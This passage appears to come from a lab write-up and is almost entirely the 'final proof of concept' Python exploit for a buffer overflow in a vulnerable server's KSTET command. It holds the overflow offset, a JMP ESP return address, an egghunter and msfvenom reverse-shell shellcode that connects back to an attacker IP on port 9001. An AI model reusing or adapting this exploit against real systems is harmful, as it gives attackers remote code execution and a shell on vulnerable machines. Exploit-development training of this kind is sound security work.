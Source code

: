Here is our final proof of concept code:

```python
#!/usr/bin/env python3

import socket
import struct

# Target information
host = "10.10.178.94"
port = 9999

prefix = b"KSTET /.:/"
crash_length = 100

# msf-pattern_offset -l 100 -q 41326341 
offset = 66

jmp_esp = 0x62501203
new_eip = struct.pack("<I", jmp_esp)

short_jump = struct.pack("<I", 0x9090B8EB)

# msf-egghunter -b "\x00" -e c0de -f python -v egghunter 
egghunter =  b""
egghunter += b"\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd"
egghunter += b"\x2e\x3c\x05\x5a\x74\xef\xb8\x63\x30\x64\x65"
egghunter += b"\x89\xd7\xaf\x75\xea\xaf\x75\xe7\xff\xe7"

# msfvenom -p windows/shell_reverse_tcp LHOST=10.9.6.209 LPORT=9001 EXITFUNC=thread -b "\x00" -f python -v shellcode
shellcode =  b""
shellcode += b"\xba\xb1\x66\x52\x22\xd9\xc1\xd9\x74\x24\xf4"
shellcode += b"\x5b\x33\xc9\xb1\x52\x31\x53\x12\x03\x53\x12"
shellcode += b"\x83\x5a\x9a\xb0\xd7\x60\x8b\xb7\x18\x98\x4c"
shellcode += b"\xd8\x91\x7d\x7d\xd8\xc6\xf6\x2e\xe8\x8d\x5a"
shellcode += b"\xc3\x83\xc0\x4e\x50\xe1\xcc\x61\xd1\x4c\x2b"
shellcode += b"\x4c\xe2\xfd\x0f\xcf\x60\xfc\x43\x2f\x58\xcf"
shellcode += b"\x91\x2e\x9d\x32\x5b\x62\x76\x38\xce\x92\xf3"
shellcode += b"\x74\xd3\x19\x4f\x98\x53\xfe\x18\x9b\x72\x51"
shellcode += b"\x12\xc2\x54\x50\xf7\x7e\xdd\x4a\x14\xba\x97"
shellcode += b"\xe1\xee\x30\x26\x23\x3f\xb8\x85\x0a\x8f\x4b"
shellcode += b"\xd7\x4b\x28\xb4\xa2\xa5\x4a\x49\xb5\x72\x30"
shellcode += b"\x95\x30\x60\x92\x5e\xe2\x4c\x22\xb2\x75\x07"
shellcode += b"\x28\x7f\xf1\x4f\x2d\x7e\xd6\xe4\x49\x0b\xd9"
shellcode += b"\x2a\xd8\x4f\xfe\xee\x80\x14\x9f\xb7\x6c\xfa"
shellcode += b"\xa0\xa7\xce\xa3\x04\xac\xe3\xb0\x34\xef\x6b"
shellcode += b"\x74\x75\x0f\x6c\x12\x0e\x7c\x5e\xbd\xa4\xea"
shellcode += b"\xd2\x36\x63\xed\x15\x6d\xd3\x61\xe8\x8e\x24"
shellcode += b"\xa8\x2f\xda\x74\xc2\x86\x63\x1f\x12\x26\xb6"
shellcode += b"\xb0\x42\x88\x69\x71\x32\x68\xda\x19\x58\x67"
shellcode += b"\x05\x39\x63\xad\x2e\xd0\x9e\x26\x5b\x2c\xa6"
shellcode += b"\x67\x33\x2c\xa6\xa4\xed\xb9\x40\xc0\xfd\xef"
shellcode += b"\xdb\x7d\x67\xaa\x97\x1c\x68\x60\xd2\x1f\xe2"
shellcode += b"\x87\x23\xd1\x03\xed\x37\x86\xe3\xb8\x65\x01"
shellcode += b"\xfb\x16\x01\xcd\x6e\xfd\xd1\x98\x92\xaa\x86"
shellcode += b"\xcd\x65\xa3\x42\xe0\xdc\x1d\x70\xf9\xb9\x66"
shellcode += b"\x30\x26\x7a\x68\xb9\xab\xc6\x4e\xa9\x75\xc6"
shellcode += b"\xca\x9d\x29\x91\x84\x4b\x8c\x4b\x67\x25\x46"
shellcode += b"\x27\x21\xa1\x1f\x0b\xf2\xb7\x1f\x46\x84\x57"
shellcode += b"\x91\x3f\xd1\x68\x1e\xa8\xd5\x11\x42\x48\x19"
shellcode += b"\xc8\xc6\x68\xf8\xd8\x32\x01\xa5\x89\xfe\x4c"
shellcode += b"\x56\x64\x3c\x69\xd5\x8c\xbd\x8e\xc5\xe5\xb8"
shellcode += b"\xcb\x41\x16\xb1\x44\x24\x18\x66\x64\x6d"
```